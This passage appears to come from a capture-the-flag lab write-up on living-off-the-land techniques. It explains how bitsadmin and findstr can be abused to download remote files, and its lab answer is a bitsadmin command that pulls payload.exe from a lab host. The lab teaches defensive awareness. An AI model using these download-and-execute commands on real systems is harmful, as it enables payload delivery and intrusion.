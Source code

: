 Attackers may abuse the BITS jobs to download and execute a malicious payload in a compromised machine. For more information about this technique, you may visit the ATT&CK [T1197](https://attack.mitre.org/techniques/T1197/) page.

Introduce the terminal container content (revisit)

![task4-cmd3](./images/task4-cmd3.png)

`/Transfer` to use the transfer option  
`/Download` we are specifying transfer using download type  
`/Priority` we are setting the priority of the job to be running in the foreground

For more information about the `bitsadmin` parameters, you can visit the [Microsoft documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) of the tool.

### FindStr

[Findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) is a Microsoft built-in tool used to find text and string patterns in files. The findstr tool is useful in that helps users and system administrators to search within files or parsed output. For example, if we want to check whether port 8080 is open on our machine, then we can pipe the result of netstat to find that port as follows: `netstat -an| findstr "445"`.

However, an unintended way was found by using `findstr.exe` to download remote files from SMB shared folders within the network as follows,

![task4-cmd4](task4-cmd4.png)

`/V` to print out the lines that don't contain the string provided.  
`dummystring` the text to be searched for; in this case, we provide a string that must not be found in a file.  
`> c:\Windows\Temp\test.exe` redirect the output to a file on the target machine. 

Note that other tools can be used for the file operation. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/) project to check them out.

In the next task, we will introduce some of the tools used to execute files.

### Answer the questions below

* Run `bitsadmin.exe` to download a file of your choice onto the attached Windows VM. Once you have executed the command successfully, an encoded flag file will be created automatically on the Desktop. What is the file name?

	```
	bitsadmin.exe /transfer /Download /priority Foreground http://10.17.127.223:8000/payload.exe c:\Users\thm\Desktop\payload.exe
	```
